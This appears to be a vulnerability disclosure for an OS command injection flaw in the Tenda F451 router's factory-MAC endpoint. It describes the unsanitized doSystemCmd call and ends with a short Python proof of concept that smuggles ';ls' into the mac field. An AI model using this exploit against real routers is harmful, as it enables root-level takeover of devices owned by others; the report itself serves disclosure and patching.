


# Vulnerability Report:  OS Command Injection in Tenda F451
An OS command injection vulnerability has been identified in the web management interface of the **Tenda F451** router (firmware versions **V1.0.0.7** and **V1.0.0.9**). An attacker can trigger this vulnerability by sending a maliciously crafted HTTP POST request containing shell metacharacters within the `mac` parameter to the `/goform/WriteFacMac` endpoint. Successful exploitation allows for Remote Code Execution (RCE) with root privileges, leading to full system compromise.

### Vulnerability Details
**Product Information** 

Product: Tenda F451 Wireless Router

Affected Version: V1.0.0.7, V1.0.0.9

Vulnerability Type:OS Command Injection


### Description:
The vulnerability exists within the `formWriteFacMac` function, which is responsible for updating the device's factory MAC address.

1. The function retrieves the user-controlled input from the `mac` parameter via the internal function `sub_28C04(a1, "mac", "00:01:02:11:22:33")` and stores it in the variable `v3`.
2. The vulnerability occurs during the call to `doSystemCmd("cfm mac %s", v3);`. The `doSystemCmd` function  executes a shell command constructed by directly concatenating the user input `v3` into a command string.
3. Because there is no sanitization or validation of the `mac` input (e.g., checking for valid MAC address format or filtering shell metacharacters like `;`, `&`, or `|`), an attacker can append arbitrary commands to the intended `cfm` command.



### Poc


### Reproduce

```python
import requests

host = "192.168.0.1:80"

def exploit_WriteFacMac():
    url = f"http://{host}/goform/WriteFacMac"
    data = {
        # b"shareSpeed":b'A'*0x800
        b'mac':";ls"
    }
    res = requests.post(url=url,data=data)
    print(res.content)
```